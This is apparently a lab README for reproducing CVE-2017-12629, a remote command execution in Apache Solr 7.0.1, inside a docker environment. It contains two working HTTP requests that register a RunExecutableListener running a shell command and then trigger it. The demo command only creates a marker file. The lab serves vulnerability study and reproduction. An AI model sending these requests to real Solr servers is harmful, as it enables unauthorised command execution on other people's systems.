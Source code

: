 # Apache Solr Remote Command Execution (CVE-2017-12629)

[中文版本(Chinese version)](README.zh-cn.md)

Apache Solr is an open-source search server. It is written in Java and built upon Apache Lucene. Before version 7.1.0, two vulnerabilities were discovered: XML External Entity (XXE) and Remote Command Execution (RCE), both numbered as CVE-2017-12629. These two vulnerabilities can be chained together to form an attack chain.

This environment demonstrates the RCE vulnerability.

References:

- <https://www.exploit-db.com/exploits/43009/>
- <https://paper.seebug.org/425/>

## Environment Setup

Execute the following command to start an Apache Solr 7.0.1 server:

```
docker compose up -d
```

After the server starts, you can access the Apache Solr management interface at `http://your-ip:8983/`. No authentication is required.

## Vulnerability Reproduction

First, create a listener by setting the `exe` value to the command you want to execute and the `args` value to the command parameters:

```
POST /solr/demo/config HTTP/1.1
Host: your-ip
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 158

{"add-listener":{"event":"postCommit","name":"newlistener","class":"solr.RunExecutableListener","exe":"sh","dir":"/bin/","args":["-c", "touch /tmp/success"]}}
```

![](1.png)

Then, trigger the listener by performing an update operation:

```
POST /solr/demo/update HTTP/1.1
Host: your-ip
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 15

[{"id":"test"}]
```

![](2.png)

Execute `docker compose exec solr bash` to enter the container, and you can see that `/tmp/success` has been successfully created:

![](3.png)
